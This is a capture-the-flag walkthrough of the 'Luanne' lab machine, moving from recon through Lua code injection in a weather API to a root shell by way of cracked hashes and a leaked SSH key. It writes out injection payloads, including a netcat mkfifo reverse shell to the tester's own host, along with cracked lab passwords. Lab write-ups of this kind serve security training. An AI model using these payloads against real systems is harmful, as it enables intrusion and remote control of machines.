

EASY - LUANNE
1. Recon
Nmap
nmap finds three open ports: SSH (22), HTTP (80) and TOR (9001).

The NSE (Nmap Scripting Engine) finds the following information:
- The box is using NetBSD.
- The version of the SSH service is 8.0
- The HTTP server is using nginx 1.19.0
- There is a disallowed entry in robots.txt: /weather
- Port 9001 is a HTTP server as well and it is using Medusa 1.12
- Both responses to the HTTP servers are 401 Unauthorized

Website - TCP 80
When I try to access http://10.10.10.218/ I find that credentials are needed. That explains the result given by nmap (401 Unauthorized). Before trying anything like using common credentials or trying to perform SQL injections, I’m going to run gobuster to find hidden directories/files wich could be of use.


While gobuster is running, I have checked /robots.txt and found an interesting comment. It says that /weather returns 404 (code for ‘Not Found’), but it still harvests cities. I do not know what does that mean, but trying to use wireshark and burpsuite has not been useful to find it out. However, while scanning http://10.10.10.218/weather, gobuster has found a file called forecast which seems to be a weather API.


Using the parameter city I can display weather information for different cities.

Website - TCP 9001
Connecting to http://10.10.10.218:9001 displays the same login than port 80. But I know this server is using Medusa and Supervisor. Reading the documentation of Supervisor I have found some default credentials that have worked to log in. Inside, there is a list of processes which can be restarted and stopped. There are also options to clear the logs of each process and to print the tail of stdout and stderr.


The ‘tail -f Stdout’ button of ‘processes’ prints some logs of what is running in the target. I can see a username (r.michaels) and a couple processes running in ports 3000 (PID 406) and 3001 (PID 395). These tasks seem to be executing a lua script related with the weather. This is probably related to the weather API I found earlier in port 80. As I do not fully understand the command, I will check the httpd documentation.

There are two httpd processes running. The first one is running in the port 3001 (-I 3001), just for localhost (-i 127.0.0.1), as the user r.michaels instead of root (-u and -U), in debug and secure mode (-X and -s), with a loaded lua script available in /weather. The second one is very similar but it is running in localhost:3000 as the user _httpd.
2. Gaining Access
Now I know that the weather API uses a script written in lua and needs a parameter to properly work. Parameters are often vulnerable if the input is not correctly sanitized so I am going to try injecting code through the city parameter. Searching ‘Lua command injection’ in Google, I have found this article where I have found a ‘Lua code injection’ section. After some time trying to figure out how the code works, I have managed to send a connection through netcat to my Kali.


This is what I have tried until I have managed to get a connection:
-
http://10.10.10.218/weather/forecast?city=") os.execute("notepad.exe→ This is the example injection of the page. It raises an error ‘attempt to call a nil value’.
-
http://10.10.10.218/weather/forecast?city=') os.execute('notepad.exe→ Trying the same injection with single quotes instead of double quotes doesn’t raise any errors. This probably means that using‘)successfully closes the function that reads the input of the city parameter.

10.10.10.218/weather/forecast?city=') os.execute('id→ Doesn’t raise any errors but doesn’t work.10.10.10.218/weather/forecast?city=') os.execute('id')→ Raises the eror again.10.10.10.218/weather/forecast?city=') os.execute('id') --→ Executes the command properly!

10.10.10.218/weather/forecast?city=') os.execute('nc 10.10.14.15 5555')--→ Succesfully sends a connection through netcat.10.10.10.218/weather/forecast?city=') os.execute('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 4448 >/tmp/f') --→ This doesn’t work, but I remembered that&usually doesn’t work properly and must be written as%26.
Knowing that I can execute commands throught that injection, I send a reverse shell to my kali and get remote code execution in the system as the user _httpd.


3. Privilege Escalation
r.michaels
Listing the content in the _httpd user home directory I find a .htpasswd with a username and a hashed password. Using john I find that the plain text credentials are webapi_user:iamthebest. Using these username and password in the login form displayed when connecting to http://10.10.10.218 gets me access to the server. Inside I find a couple links that lead to the weather API, but this is not very useful to acces the system as r.michaels/root.


In the recon phase I found an instance of httpd running a server in localhost:3001 that belonged to r.michaels. If the weather.lua file in this server was vulnerable to the same command injection I used earlier, I would be able to get a shell as r.michaels. However, this time the lua code is not vulnerable and I can’t get access.

After a while I have found a better man page than the one that helped me understanding the httpd process earlier. There, I have found out a better explanation of what the ‘-u’ flag does. So now I know that there is a /~r.michaels directory within localhost:3001. Using curl to see its content (credentials are needed, but the ones I used for the port 80 worked) I find an id_rsa file which I can read accessing /~r.michaels/id_rsa. Once I have printed it, I save it to my Kali and log in through SSH as r.michaels with it.


Root
Checking the content of/home/r.michaels/ directory I have found an encrypted file which seems to be a backup of /devel. There is also a .gnupg directory with two .gpg files. It seems that GnuPG is an implementation of the OpenGPG standard which is used to encrypt files, so I will try using it to decrypt the .enc backup file. However, gpg is not installed in the system.

After some research I have found that old systems sometimes use pgp instead of gpg. This tool is the closed-source predecessor of gpg. The main difference between them is the licensing and support, but they are very similar. Using find, I locate a couple binaries which I maybe could use to decrypt the backup file. Reading the help menu of netpgp I find a decrypt option and I generate a .tar.gz in /tmp.


After decompressing it, I read the three files that are within the new directory and discover that the .htpasswd is different from the one I read earlier. Using john breaks the hash very quickly and I get a password (littlebear).


As I haven’t found any services or other users that could require a password, I think this is either the r.michaels or the root password within the system. Trying to use sudo -l to see what root permissions do I have, I notice that the console is ksh and that sudo is not a command in the system. I use uname -a to check what OS is the target using and I find that it is running NetBSD. After a quick Google search to find what alterantives to sudo can be used in NetBSD, I use doas to log in as root and the new password works. Now I can read root.txt and submit the flag.